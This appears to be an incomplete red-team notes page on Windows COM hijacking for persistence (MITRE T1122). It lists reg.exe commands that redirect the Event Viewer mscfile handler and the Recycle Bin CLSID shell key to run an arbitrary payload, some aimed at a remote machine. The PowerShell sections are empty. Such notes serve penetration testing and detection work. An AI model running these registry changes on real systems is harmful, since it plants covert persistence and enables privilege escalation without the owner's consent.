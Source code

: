 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1122
  - windows
---
```

# COM Hijacking

TODO: Fill this info

## Event Viewer

### Command Prompt

```
C:\> reg.exe add "HKLM\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg.exe add "HKLM\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

### PowerShell

```

```

## Recycle Bin

### Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\payload.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\payload.exe" /f
```

### PowerShell

```

```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Bypass User Access Control/Types of Bypassing UAC/MMC/Manual]]

### Persistence Info

- [Persistence Info: Recycle Bin COM Extension Handler](https://persistence-info.github.io/Data/recyclebin.html)

### Red Team Notes

- [Red Team Notes: COM Hijacking](https://www.ired.team/offensive-security/persistence/t1122-com-hijacking)